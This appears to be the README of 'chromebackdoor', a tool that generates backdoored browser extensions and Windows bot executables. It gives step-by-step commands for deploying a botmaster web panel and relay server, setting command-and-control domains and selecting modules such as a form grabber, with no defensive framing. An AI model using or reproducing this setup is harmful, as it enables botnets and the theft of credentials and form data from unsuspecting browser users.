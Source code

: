 #INSTALL WEB

1) unzip file generated by chromebackdoor

```sh
unzip folder.zip
```

2) Upload a folder web & relais on hosting

3) create database & user and update config file
```sh
/web/includes/config.php
```

4) Upload .SQL on database

```sh
/SQL/chromebackdoor.sql
```

5) Login on webpanel (web/index.php)
```python
username = root
password = toor
```

#GENERATE BOT (without .EXE)

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc

#BUILD .EXE

1) run chrommebackdoor with --build
```sh
python chromebackdoor.py --build
```
2) select browser backdoor (exemple --chrome)
```sh
[?] crx fime (/root/..) ? /root/backdoor.crx
```
3) wine start installer.exe and generate bot.exe

4) Start bot.exe with windows
```sh
Generate successful : {chromebackdoor_folder}/bot.exe
```
